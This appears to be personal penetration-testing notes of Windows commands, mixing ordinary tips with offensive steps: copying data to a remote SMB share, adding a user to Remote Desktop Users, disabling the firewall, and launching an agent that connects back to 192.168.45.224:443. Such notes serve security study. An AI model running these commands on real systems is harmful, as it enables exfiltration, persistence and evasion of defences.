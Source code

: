 ```powershell
# net 
net use \\192.168.45.194\a\ /user:username passwd # access share
# then can use share to save data
# echo "asdasd" > \\192.168.45.194\a\filename

net use \\192.168.45.194\ /delete # delete share
net use * /delete
```

read long file, use like less
```powershell
Get-Content a_very_long_file.txt | Out-Host -Paging
```
select columns to be printed
```powershell
Get-Process |
   Select-Object -First 2 |
   Select-Object Handles, ProcessName
```
add user (to group)
```powershell
net user  <username> <passwd> /add # create new user
net localgroup "<group_name>" # list users in  group, eg "Remote Desktop Users"
net localgroup "<group_name>" <user> /add # add user to group
```
show firewall status / turn firewall on/off
```powershell
Netsh advfirewall show allprofiles
Netsh advfirewall set allprofile state on
Netsh advfirewall set allprofile state off
```
start proess in bg
```cmd
start "" "C:\Users\eric.wallows\agent.exe" -ignore-cert -retry -connect 192.168.45.224:443
```
```powershell
Start-Process -FilePath "C:\Users\eric.wallows\agent.exe" -ArgumentList "-ignore-cert -retry -connect 192.168.45.224:443"
```
